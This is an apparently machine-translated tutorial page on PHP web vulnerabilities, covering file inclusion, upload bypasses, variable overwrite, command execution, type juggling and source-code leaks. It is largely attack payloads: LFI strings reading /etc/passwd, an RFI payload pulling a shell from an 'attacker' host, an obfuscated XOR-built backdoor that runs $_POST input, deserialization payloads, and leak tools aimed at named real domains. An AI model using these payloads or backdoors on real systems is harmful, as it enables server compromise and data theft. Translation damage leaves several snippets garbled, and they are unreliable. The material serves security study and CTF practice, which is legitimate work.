


[EN](./php.md) | [ZH](./php-zh.md)
## File contains


Common functions that cause files to be included are:


- PHP：`include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()` 等

- JSP Servlet ： `ava.io.File ()` ， `java.io.FileReader ()` 等
- ASP：`includefile`，`includevirtual` 等


When PHP includes a file, it will be executed as PHP code, regardless of the type of file.


### Local file contains


The local file contains, Local File Inclusion, LFI.


```php

<?php

$file = $_GET['file'];

if (file_exists('/home/wwwrun/'.$file.'.php')) {

  include '/home/wwwrun/'.$file.'.php';

}

?>

```


The above code has a local file containing, and the contents of the `/etc/passwd` file can be read by truncating %00.


- `%00` truncation


  ```

  ?file=../../../../../../../../../etc/passwd%00

  ```


Requires `magic_quotes_gpc=off`, PHP is less than 5.3.4.


- Path length truncation


  ```

  ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.

  ```


Linux requires a file name longer than 4096 and Windows needs to be longer than 256.


- Point number truncation


  ```

? file = ... / ... // ... // ... // ... / / boot.ini/ ……… [...] …………
  ```


For Windows only, the dot number needs to be longer than 256.


### Remote file contains


The remote file contains, Remote File Inclusion, RFI.


```php

<?php

if ($route == "share") {

  require_once $basePath . "/action/m_share.php";

} elseif ($ route == &quot;sharelink&quot;) {
  require_once $basePath . "/action/m_sharelink.php";

}

```


Constructs the value of the variable `basePath`.


```

/?basePath=http://attacker/phpshell.txt?

```


The final code is executed


```php

require_once "http://attacker/phpshell.txt?/action/m_share.php";

```


The part after the question mark is interpreted as the querystring of the URL, which is also a kind of &quot;truncation&quot;.


- Normal remote file contains


  ```

  ?file=[http|https|ftp]://example.com/shell.txt

  ```


Need `allow_url_fopen=On` and `allow_url_include=On`.


- Utilize PHP stream input


  ```

  ?file=php://input

  ```


  需要 `allow_url_include=On` 。


- Utilize PHP stream filter


  ```

  ?file=php://filter/convert.base64-encode/resource=index.php

  ```


  需要 `allow_url_include=On` 。


-Use data URIs


  ```

  ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=

  ```


  需要 `allow_url_include=On` 。


- Execute with XSS


  ```

  ?file=http://127.0.0.1/path/xss.php?xss=phpcode

  ```


Need `allow_url_fopen=On`, `allow_url_include=On` and the firewall or whitelist is not allowed to access the external network, first find an XSS vulnerability in the same site, including this page, you can inject malicious code.


## File Upload


A file upload vulnerability is when a user uploads an executable script file and obtains the ability to execute server-side commands through this file. In most cases, file upload vulnerabilities generally refer to the problem of uploading a web script that can be parsed by the server, a so-called webshell issue. To complete this attack, several conditions are required. First, the uploaded file can be executed by the WEB container. Secondly, the user can access the file from the WEB. Finally, if the uploaded file is changed by security check, formatting, image compression, etc. Content may cause the attack to fail.


### Bypassing the upload check


- Front end check extension


Capture the package and bypass it.


- `Content-Type` detection file type

Capture the package to modify the `Content-Type` type to match the whitelist rules.


- Add a suffix to the server


Try `%00` truncation.


- Server extension detection


Exploit the vulnerability.


- Apache parsing


`phpshell.php.rar.rar.rar.rar` Because Apache does not know `.rar` this file type, so it will traverse the suffix to `.php`, and then think this is a PHP file.


- IIS parsing


When the file name is `abc.asp;xx.jpg` under IIS 6, it will be parsed as `abc.asp`.


- PHP CGI path resolution


When you visit `http://www.a.com/path/test.jpg/notexist.php`, `test.jpg` will be parsed as PHP, and `notexist.php` is a non-existent file. At this point, the configuration of Nginx is as follows


  ```nginx

  location ~ \.php$ {

    root html;

    fastcgi_pass 127.0.0.1:9000;

    fastcgi_index index.php;

    fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;

    include fastcgi_param;

  }

  ```


- other methods


The suffix case, double write, special suffix such as `php5`, etc., modify the content of the package to the WAF and so on.


## Variable coverage


### Global Variable Override


Variables that are not initialized and can be controlled by the user are likely to cause security problems.


`` `this
register_globals = ON
```


Example


```php

<?php

echo &quot;Register_globals:&quot;. (int) ini_get (&quot;register_globals&quot;). &quot; <br/> &quot;;


if ($auth) {

  echo "private!";

}

?>

```


When `register_globals=ON`, submit `test.php?auth=1`, the `auth` variable will be automatically assigned.


### `extract()` variable override


The `extract()` function can import variables from an array into the current symbol table, which is defined as


```

int extract ( array $var_array [, int $extract_type [, string $prefix ]] )

```


The second parameter specifies the behavior of the function when it is imported into the symbol table. The two most common values are `EXTR_OVERWRITE` and `EXTR_SKIP`.


When the value is `EXTR_OVERWRITE`, in the process of importing variables into the symbol table, if the variable name conflicts, all variables are overwritten; the value of &#39;EXTR_SKIP` means skipping without overwriting. If the second parameter is not specified, `EXTR_OVERWRITE` is used by default.


```php

<?php

$auth = "0";

extract($_GET);


if ($auth == 1) {

  echo "private!";

} else {

  echo "public!";

}

?>

```


Variable coverage can occur when the `extract()` function exports variables from an array that the user can control.


### `import_request_variables` Variable Override


```

bool import_request_variables (string $types [, string $prefix])

```


`import_request_variables` Imports variables from GET, POST, and Cookies into the global. Use this function to simply specify the type.


```php

<?php

$auth = "0";

import_request_variables("G");


if ($auth == 1) {

  echo "private!";

} else {

  echo "public!";

}

?>

```


`import_request_variables(&quot;G&quot;)` specifies the variables to be imported into the GET request, and submits the test coverage of `test.php?auth=1`.


### `parse_str()` variable override


```

void parse_str ( string $str [, array &$arr ])

```


The `parse_str()` function is usually used to parse the querystring in a URL, but when the parameter value can be controlled by the user, it is likely to cause variable coverage.


```php

// var.php?var=new variable override
$ var = &quot;init&quot;;
parse_str($_SERVER["QUERY_STRING"]);

print $ var;
```


Functions similar to `parse_str()` also have `mb_parse_str()`.

## Command Execution


### Direct execution code


There are quite a few functions in PHP that can execute code directly.


```php

eval();

assert();

system();

exec();

shell_exec();

passthru();

escapeshellcmd();

pcntl_exec();

......

```


### `preg_replace()` Code Execution


The first argument to `preg_replace()` allows code execution if the `/e` mode modifier is present.


```php

<?php

$ var = &quot; <tag> phpinfo () </tag> &quot;;
preg_replace ( &quot;/ <tag> (. *?) &lt;/ tag&gt; / e &quot;,&quot; addslashes (1) &quot;, $ var);
?>

```


If you don&#39;t have the `/e` modifier, you can try %00 truncation.


### `preg_match` Code Execution


`preg_match` performs a matching regular expression, allowing the code to execute if the match is successful.


```

<?php

include 'flag.php';

if(isset($_GET['code'])){

    $code = $_GET['code'];

    if(strlen($code)>40){

        die("Long.");

    }

    if(preg_match("/[A-Za-z0-9]+/",$code)){

        die("NO.");

    }

    @eval($code);

}else{

    highlight_file(__FILE__);

}

//$hint =  "php function getFlag() to get flag";

?>

```


This question is a question from the plum wine master when the `xman` training session. This series of code descriptions is like this. We want to bypass the passing of regular numbers and alphabetic strings such as `AZ`, `az`, `0-9`, and convert non-alphanumeric characters into various transformations. Can construct any character in `az`, and the string length is less than `40`. Then use `PHP` to allow dynamic function execution features, stitch out a function name, here we are `getFlag`, and then dynamically execute the code.


So, the question we need to consider is how to pass various transformations so that we can successfully read the `getFlag` function and get the `webshell`.


Before we understand this, we first need to understand the concept of XOR `^` in `PHP`.


Let&#39;s take a look at the following code:


```

<?php

echo &quot;A&quot; ^ &quot;?&quot;;
?>

```


The results are as follows:


We can see that the output is the character `~`. The reason for this is because the code `A` and the character `?` are XORed in the code. In `PHP`, when two variables are XORed, the string is first converted to an `ASCII` value, then the `ASCII` value is converted to binary and then XORed, XOR is completed, and the result is converted from binary. Become an `ASCII` value and convert the `ASCII` value to a string. XOR operations are also sometimes used to exchange the values of two variables.


Like the example above


The `ASCII` value of `A` is `65` and the corresponding binary value is `01000001`.


The ASCII value of `?` is `63` and the corresponding binary value is `00111111`.


The value of the exclusive OR binary is `‭01111110‬`, the corresponding `ASCII` value is `126`, and the corresponding string value is `~`.


We all know that `PHP` is a weakly typed language, that is, in `PHP` we can declare a variable directly and initialize or assign it without declaring the type of the variable. It is precisely because of the `PHP` weak type that we implicitly convert the variable type of `PHP` and use this feature to perform some unconventional operations. If you convert an integer to a string, treat a boolean as an integer, or treat a string as a function, let&#39;s look at a piece of code:


```

<?php

    function B(){

        echo "Hello Angel_Kitty";

    }

    $_++;

    $__= "?" ^ "}";

    $__();

?>

```


The code execution results are as follows:


Let&#39;s analyze the above code together:


1, `$_++; ` This line of code means to increment the variable named `&quot;_&quot;`, the default value of the variable undefined in `PHP` `null`, `null== False==0`, we can get a number by auto-incrementing the undefined variable without using any numbers.


2, `$__=&quot;?&quot; ^ &quot;}&quot;; ` XOR the characters `?` and `}`, and get the result `B` assigned to the variable named `__` (two underscores)


3, `$ __ (); ` Through the above assignment operation, the value of the variable `$__` is `B`, so this line can be regarded as `B()`. In `PHP`, this line of code represents The function `B` is called, so the result is `Hello Angel_Kitty`. In `PHP`, we can treat strings as functions.


Seeing this, I believe that if you see a similar `PHP` backdoor, you should not be so confused. You can use the sentence analysis of the backdoor code to understand the functions that the backdoor wants to achieve.


We want to use this backdoor to create strings that bypass the detection and are useful to us, such as `_POST` , `system` , `call_user_func_array `, or whatever we need.


Here is a very simple non-alphanumeric `PHP` backdoor:


```

<?php

    @$_++; // $_ = 1

    $__=("#"^"|"); // $__ = _

    $__.=("."^"~"); // _P

$ __. = (&quot;/&quot; ^ &quot;` &quot;); // _PO
$ __. = (&quot;|&quot; ^ &quot;/&quot;); // _POS
    $__.=("{"^"/"); // _POST 

    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);

?>

```


Here I explain, `.=` is a string connection, see `PHP` syntax for details.

We can even merge the above code into one line, making the program less readable, the code is as follows:


```

$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");

```


Looking back at the question of the `xman` training, our idea is to bypass the string of characters by constructing XOR, so how do we construct this string so that the length is less than `40`?


We finally want to read the `getFlag` function, we need to construct a `_GET` to read this function, we finally construct the following string:





It may be that many small partners still can&#39;t understand how this string is constructed. Let&#39;s analyze the segment string.


#### Construct `_GET` Read


First of all, we have to know what X_GET` is from XOR. After my attempts and analysis, I came to the following conclusion:


```

<?php

    echo "`{{{"^"?<>/";//_GET

?>

```


What is the meaning of this code? Because of the 40-character length limit, webshells that were previously XOR-to-character-spliced cannot be used.
Here you can use the backquotes `` ` `` and `Linux` under the php php to execute the command `?`


- `?` means matching one character
- `` ` indicates execution of the command
- `` ` Parsing a special string


Since `?` can only match one character, this way of writing means looping and matching. We will break it down to see:


```

<?php

    echo "{"^"<";

?>

```


The output is:





```

<?php

    echo "{"^">";

?>

```


The output is:


```

<?php

    echo "{"^"/";

?>

```


The output is:


So we can know that `_GET` is constructed like this!


#### Get the `_GET` parameter


How do we get the `_GET` parameter? We can construct the following string:


```

<?php

    echo ${$_}[_](${$_}[__]);//$_GET[_]($_GET[__])

?>

```


According to the previous construction, `$_` has become `_GET`. Naturally, `$_ = _GET`. We built `$_GET[__]` to get the parameter values.


#### Incoming parameters


At this point we just need to call the `getFlag` function to get the `webshell` just fine, constructed as follows:


```

<?php

    echo $_=getFlag;//getFlag

?>

```


So connect all the parameters and you&#39;re done.


The results are as follows:


So we successfully read the flag!


### Dynamic function execution


User-defined functions can lead to code execution.


```php

<?php

$ dyn_func = $ _GET [&quot;dyn_func&quot;];
$argument = $_GET["argument"];

$ dyn_func ($ argument);
?>

```


### Backquote command execution


```php

<?php

echo `ls -al`;
?>

```


### Curly Syntax


PHP&#39;s Curly Syntax can also lead to code execution, it will execute the code between the curly braces and replace the results.


```php

<?php

$ var = &quot;aaabbbccc $ {` ls`} &quot;;
?>

```


```php

<?php

$foobar = "phpinfo";

$ {&quot;foobar&quot;} ();
?>

```


### Callback


Many functions can execute callback functions, which will cause code execution when the callback function is controllable by the user.


```php

<?php

$evil_callback = $_GET["callback"];

$some_array = array(0,1,2,3);

$new_array = array_map($evil_callback, $some_array);

?>

```


Attack payload


```

http://www.a.com/index.php?callback=phpinfo

```


### Deserialization


If `unserialize()` defines a `__destruct()` or `__wakeup()` function at execution time, it may cause code execution.


```php

<?php

class Example {

was $ var = &quot;&quot;;
  function __destruct() {

    eval($this->var);

  }

}

unserialize($_GET["saved_code"]);

?>

```


Attack payload


```

http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}

```


## PHP Features


### Array


```php

<?php

$ var = 1;
$ var = array ();
$ var = &quot;string&quot;;
?>

```


Php does not strictly check incoming variable types, nor can it convert types freely.


For example, in the comparison of `$a == $b`


```php

$a = null; 

$b = false; // is true
$a = ''; 

$b = 0; //also true
```


However, the developers of the PHP kernel originally wanted to let programmers develop more efficiently with this system that does not require declarations, so many loosely used comparisons and transformations were used in almost all built-in functions and basic structures to prevent programs from being used. The variables are frequently reported incorrectly because of the programmer&#39;s irregularity, but this brings security problems.


```php

0=='0' //true

0 == 'abcdefg' //true

0 === 'abcdefg' //false

1 == '1abcdef' //true

```


### Magic Hash


```php

"0e132456789"=="0e7124511451155" //true

"0e123456abc"=="0e1dddada" //false

"0e1abc"=="0"  //true

```


When a comparison operation is performed, if a string such as `0e\d+` is encountered, the string is parsed into scientific notation. So the values of the two numbers in the above example are all 0 and thus equal. If the pattern of `0e\d+` is not satisfied, it will not be equal.


### hex conversion


```php

"0x1e240"=="123456" //true

"0x1e240"==123456 //true

"0x1e240"=="1e240" //false

```


When one of the strings starts with `0x`, PHP parses the string into decimal and then compares it. `0x1240` parsing into decimal is 123456, so with the `int` type and the `string` type of 123456 The comparisons are all equal.


### Type conversion


The common conversions are mainly `int` converted to `string`, `string` converted to `int`.


`int` turn `string`


```php

$ var = 5;
Method 1: $item = (string) $var;
Method 2: $item = strval($var);
```


`string` turns `int`:`intval()` function.


For this function, you can look at 2 examples first.


```php

var_dump (intval (&#39;2&#39;)) // 2
var_dump (intval (&#39;3abcd&#39;)) // 3
var_dump (intval (&#39;abcd&#39;)) // 0
```


When the `intval()` conversion is specified, it will be converted from the beginning of the string to know that a non-numeric character has been encountered. Even if there is a string that cannot be converted, `intval()` will not report an error but return 0.


At the same time, programmers should not use the following code when programming:


```php
if(intval($a)>1000) {

 mysql_query("select * from news where id=".$a)

}

```


At this time, the value of `$a` may be `1002 union`.


### Looseness of parameters of built-in functions


The looseness of the built-in function is that when the function is called, the function is passed to the function type that the function cannot accept. Explain a bit of a mouthful, or directly through the actual examples to illustrate the problem, the following will focus on a few of these functions.


**md5()**


```php

$array1[] = array(

 "foo" => "bar",

 "bar" => "foo",

);

$array2 = array("foo", "bar", "hello", "world");

var_dump (md5 ($ array1) == md5 ($ array2)); //threaten
```


The description of the md5() function in the PHP manual is `string md5 ( string $str [, bool $raw_output = false ] )`, and the requirement in `md5()` is a string type parameter. But when you pass an array, `md5()` will not report an error, but will not be able to correctly find the md5 value of the array, which will cause the md5 values of any 2 arrays to be equal.


**strcmp()**


The `strcmp()` function is described in the official PHP manual as `intstrcmp ( string $str1 , string $str2 )`, which needs to pass 2 arguments of type `string` to `strcmp()`. If `str1` is less than `str2`, it returns -1, and equality returns 0, otherwise it returns 1. The essence of the `strcmp()` function to compare strings is to convert two variables to ASCII, then perform the subtraction, and then determine the return value based on the result of the operation.


What if the argument that gives `strcmp()` is a number?


```php

$array=[1,2,3];

Var_dump(strcmp($array,&#39;123&#39;)); //null, in a sense null is equivalent to false.
```


**switch()**


If `switch()` is a case of a numeric type, switch will convert the parameters to an int. as follows:


```php

$i ="2abc";

switch ($i) {

case 0:

case 1:

case 2:

 echo "i is less than 3 but not negative";

 break;

case 3:

 echo "i is 3";

}

```


At this time, the program outputs `i is less than 3 but not negative` because the `switch()` function converts `$i` and the result is 2.


**in_array()**


In the PHP manual, the `in_array()` function is interpreted as `bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )` . If the strict parameter is not provided, then `in_array` will be loose. Compare to see if `$needle` is in `$haystack`. When the value of strict is true, `in_array()` compares the type of needls with the type in haystack.


```php

$array=[0,1,2,'3'];

var_dump(in_array('abc', $array)); //true

var_dump(in_array('1bc', $array)); //true

```


You can see that the above case returns true, because `&#39;abc&#39;` will be converted to 0, and `&#39;1bc&#39;` will be converted to 1.


`array_search()` is the same as `in_array()`.


## Looking for source code backup


### hg Source code leak


``hg` files are generated when `hg init`.


[Using the tool dvcs-ripper] (https://github.com/kost/dvcs-ripper)


### Git Source leaks


The `.git` directory contains files such as code change records. If the files in this directory are accessible when deployed, they may be used to restore the source code.


```

/.git

/.git/HEAD

/.git/index

/.git/config

/.git/description

```


[GitHack](https://github.com/lijiejie/GitHack)


```shell

python GitHack.py http://www.openssl.org/.git/

```


[GitHacker (Recoverable Full Git Repository)] (https://github.com/WangYihang/GitHacker)


```shell

python GitHacker.py http://www.openssl.org/.git/

```


### `.DS_Store` File leaked


Mac OS will contain a `.DS_Store` file containing information such as the file name.


[Using the tool ds_store_exp] (https://github.com/lijiejie/ds_store_exp)


```shell

python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store


hd.zj.qq.com/

└── themes

Axy── galaxyw
        ├── app

        │   └── css

        │       └── style.min.css

├── cityData.min.js
        ├── images

        │   └── img

        │       ├── bg-hd.png

        │       ├── bg-item-activity.png

│ ├── bg-mask-pop.png
│ ├── btn-bm.png
        │       ├── btn-login-qq.png

        │       ├── btn-login-wx.png

        │       ├── ico-add-pic.png

        │       ├── ico-address.png

        │       ├── ico-bm.png
        │       ├── ico-duration-time.png

        │       ├── ico-pop-close.png

        │       ├── ico-right-top-delete.png

        │       ├── page-login-hd.png

│ ├── pic-topeng.png
        │       └── ticket-selected.png

        └── member

            ├── assets

            │   ├── css

            │   │   ├── ace-reset.css

└ └── antd.css
            │   └── lib

│ ├── cityData.min.js
│ └── ueditor
            │           ├── index.html

│ ├── lang
Zh-│ │ └──
            │           │       ├── images

            │           │       │   ├── copy.png

            │           │       │   ├── localimage.png

            │           │       │   ├── music.png

            │           │       │   └── upload.png

│ │ └── zh cn.js
            │           ├── php

            │           │   ├── action_crawler.php

            │           │   ├── action_list.php

            │           │   ├── action_upload.php

            │           │   ├── config.json

            │           │   ├── controller.php

            │           │   └── Uploader.class.php

            │           ├── ueditor.all.js

│ ├── ueditor.all.min.js
            │           ├── ueditor.config.js

            │           ├── ueditor.parse.js

│ └── ueditor.parse.min.js
            └── static

                ├── css

                │   └── page.css

                ├── img

                │   ├── bg-table-title.png

                │   ├── bg-tab-say.png

                │   ├── ico-black-disabled.png

                │   ├── ico-black-enabled.png

                │   ├── ico-coorption-person.png

                │   ├── ico-miss-person.png

                │   ├── ico-mr-person.png

                │   ├── ico-white-disabled.png

                │   └── ico-white-enabled.png

                └── scripts

├── js
                    └── lib

└── jquery.min.js


21 directories, 48 files

```


### Website backup file


The administrator incorrectly placed the backup under the web directory after backing up the website file.


Common suffixes:


```

.rar

.zip

7.z
tar
.tar.gz
.behind
.txt

```


### SVN Leak


Sensitive documents:


```

/.svn

/.svn/wc.db

/.svn/entries

```


[dvcs-ripper](https://github.com/kost/dvcs-ripper)


```shell

perl rip-svn.pl -v -u http://www.example.com/.svn/

```


[Seay - SVN] (http://tools.40huo.cn/#!web.md# source leak)


### WEB-INF / web.xml leaked


WEB-INF is a secure directory for Java web applications, and there are file mappings in web.xml.


WEB-INF mainly contains the following files or directories:


- `/WEB-INF/web.xml` : Web application configuration file that describes the servlet and other application component configuration and naming rules.
- `/WEB-INF/classes/` : Contains all the class files used by the site, including servlet class and non-servlet class, they cannot be included. In the jar file.
- `/WEB-INF/lib/` : Stores various jar files required by the web application, and places jar files that are only required in this application, such as database driver jar files.
- `/WEB-INF/src/` : source directory, each java file is placed according to the package name structure.
- `/WEB-INF/database.properties` : Database configuration file.


By finding the web.xml file, inferring the path to the class file, and finally by directly classifying the file, the website source code is obtained by decompiling the class file. In general, the jsp engine is forbidden to access the WEB-INF directory by default. When Nginx works with Tomcat to balance load or cluster, the cause of the problem is actually very simple. Nginx will not consider configuring other type engines (Nginx is not a jsp engine). The security issue is introduced into its own security specification (so that the coupling is too high), modifying the Nginx configuration file to block access to the WEB-INF directory is fine:


```nginx

Location ~ ^/WEB-INF/* { deny all; } # or return 404; or other!
```


### CVS Leak


```

Http://url/CVS/Root returns the root information
Http://url/CVS/Entries returns the structure of all files
```


Retrieve source code


```shell

bk clone http://url/name dir

```


### references


- [Remember the pit that the webshell stepped on (how to write a backdoor that does not contain numbers and letters in PHP)](https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html)
